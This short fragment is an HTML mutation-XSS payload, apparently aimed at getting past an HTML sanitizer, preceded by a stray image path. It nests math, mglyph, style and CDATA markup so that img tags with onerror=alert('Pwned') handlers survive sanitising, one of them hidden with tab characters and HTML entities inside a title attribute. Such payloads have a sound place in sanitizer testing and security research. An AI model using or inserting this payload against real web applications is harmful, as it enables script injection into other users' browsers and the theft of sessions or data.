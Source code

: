 <math><mtext><table><mglyph><style><![CDATA ><img src=x onerror=alert('Pwned')></style><img title="]]&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert('Pwned')&gt;">
